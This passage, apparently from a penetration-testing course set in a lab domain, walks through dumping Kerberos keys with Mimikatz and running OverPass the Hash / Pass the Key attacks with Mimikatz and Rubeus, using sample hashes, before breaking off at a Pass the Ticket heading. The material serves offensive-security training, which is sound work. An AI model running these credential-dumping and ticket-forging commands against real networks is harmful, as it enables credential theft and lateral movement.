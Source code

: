 To forge our tickets, we need to have the user's hash; we can use Mimikatz to dump all users Kerberos encryption keys using the module `sekurlsa::ekeys`. This module will enumerate all key types present for the Kerberos package.

#### Mimikatz - Extract Kerberos Keys
```cmd-session
c:\tools> mimikatz.exe
```
```cmd-session
mimikatz # privilege::debug
```
```cmd-session
mimikatz # sekurlsa::ekeys
```
Now that we have access to the `AES256_HMAC` and `RC4_HMAC` keys, we can perform the OverPass the Hash or Pass the Key attack using `Mimikatz` and `Rubeus`.

#### Mimikatz - Pass the Key or OverPass the Hash

```cmd-session
c:\tools> mimikatz.exe
```
```cmd-session
mimikatz # privilege::debug
```
```cmd-session
mimikatz # sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```
#### Rubeus - Pass the Key or OverPass the Hash
```cmd-session
c:\tools> Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```
**Note:** Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

To learn more about the difference between Mimikatz `sekurlsa::pth` and Rubeus `asktgt`, consult the Rubeus tool documentation [Example for OverPass the Hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash).

**Note:** Modern Windows domains (functional level 2008 and above) use AES encryption by default in normal Kerberos exchanges. If we use a rc4_hmac (NTLM) hash in a Kerberos exchange instead of an aes256_cts_hmac_sha1 (or aes128) key, it may be detected as an "encryption downgrade."

---

## Pass the Ticket (PtT)

Now that we have some Kerberos tickets, we can use them to move laterally within an environment.

With `Rubeus` we performed an OverPass the Hash attack and retrieved the ticket in base64 format. Instead, we could use the flag `/ptt` to submit the ticket (TGT or TGS) to the current logon session.

#### Rubeus Pass the Ticket
